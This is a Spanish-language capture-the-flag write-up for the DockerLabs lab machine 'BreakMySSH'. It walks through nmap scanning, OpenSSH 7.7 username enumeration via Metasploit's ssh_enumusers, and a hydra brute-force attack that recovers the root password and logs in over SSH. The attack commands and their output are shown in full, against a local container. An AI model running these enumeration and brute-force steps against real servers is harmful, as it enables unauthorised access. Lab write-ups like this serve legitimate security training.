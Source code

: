 # 🖥️ Writeup - BreakMySSH 

**Plataforma:** Dockerlabs  
**Sistema Operativo:** Linux  

# INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash 
unzip breakmyssh.zip
```
La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh breakmyssh.tar
``` 
Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
``` 

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

# ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
``` 

```bash
nmap -n -Pn -sCV -p22,80 --min-rate 5000 172.17.0.2
```

Info:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-11 17:28 CEST
Nmap scan report for 172.17.0.2
Host is up (0.0000070s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.7 (protocol 2.0)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.20 seconds
```

Vemos que solo el puerto `22` (`SSH`) está abierto y que la versión de `OpenSSH` que corre es la `7.7`.

Esta versión en concreto es vulnerable a enumeración de usuarios, como podemos comprobar tras utilizar `searchsploit`.

```bash
searchsploit OpenSSH 7.7
```

Info:
```
----------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                               |  Path
----------------------------------------------------------------------------- ---------------------------------
OpenSSH 2.3 < 7.7 - Username Enumeration                                     | linux/remote/45233.py
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)                               | linux/remote/45210.py
OpenSSH < 7.7 - User Enumeration (2)                                         | linux/remote/45939.py
----------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Abrimos Metasploit y empleamos el módulo de `enumusers`.

```js
search openssh
use auxiliary/scanner/ssh/ssh_enumusers 
show options
set USER_FILE /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
run
```

Info:
```
[*] 172.17.0.2:22 - SSH - Using malformed packet technique
[*] 172.17.0.2:22 - SSH - Checking for false positives
[*] 172.17.0.2:22 - SSH - Starting scan
[+] 172.17.0.2:22 - SSH - User 'mail' found
[+] 172.17.0.2:22 - SSH - User 'root' found
[+] 172.17.0.2:22 - SSH - User 'news' found
[+] 172.17.0.2:22 - SSH - User 'man' found
[+] 172.17.0.2:22 - SSH - User 'bin' found
[+] 172.17.0.2:22 - SSH - User 'games' found
[+] 172.17.0.2:22 - SSH - User 'nobody' found
[+] 172.17.0.2:22 - SSH - User 'lovely' found
^C[*] Caught interrupt from the console...
[*] Auxiliary module execution completed

```

Encontramos un usuario que no es por defecto: `lovely`.

# FUERZA BRUTA

Intentamos un ataque de fuerza bruta sobre este usuario.

```bash
hydra -l lovely -P /usr/share/wordlists/rockyou.txt 172.17.0.2 ssh -t 60
```

Después de 10 minutos aún no se ha encontrado ninguna coincidencia, así que probamos directamente un ataque de `fuerza bruta` sobre el usuario `root`.

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt 172.17.0.2 ssh -t 60
```

Info:
```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-11 17:40:01
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 60 tasks per 1 server, overall 60 tasks, 14344399 login tries (l:1/p:14344399), ~239074 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: root   password: estrella
```

Casi de inmediato obtenemos las credenciales para `root` : `estrella`.

Accedemos por `SSH` como `root`.

```bash 
ssh root@172.17.0.2
```

Info:
```
root@54677c43b6f8:~# whoami
root
root@54677c43b6f8:~#
```

Ya somos root !